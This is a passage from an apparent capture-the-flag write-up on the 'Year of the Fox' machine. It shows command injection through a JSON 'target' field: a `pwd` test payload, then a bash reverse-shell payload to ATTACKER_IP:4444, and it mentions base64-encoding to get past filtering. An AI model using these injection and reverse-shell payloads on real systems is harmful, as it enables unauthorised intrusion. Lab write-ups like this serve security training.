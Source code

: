 
Let's try sending this payload:

```
{"target":"\";pwd \""}
```

![screenshot9](../assets/images/year_of_the_fox/screenshot9.png)

Nice, the `pwd` command was run, proving that command injection is possible!

With that, let's try to open a reverse shell back to our machine. I'll be using the following payload:

```
{"target":"\";bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1 \""}
```

With my netcat listener up and running, I sent the following request:

![screenshot10](../assets/images/year_of_the_fox/screenshot10.png)

Hmmmm, looks like there is some server-side filtering going on. We can easily bypass this by encoding our command with base64, then decoding it on the server-side.

After encoding our command, we get back the following encoded string:

![screenshot11](../assets/images/year_of_the_fox/screenshot11.png)
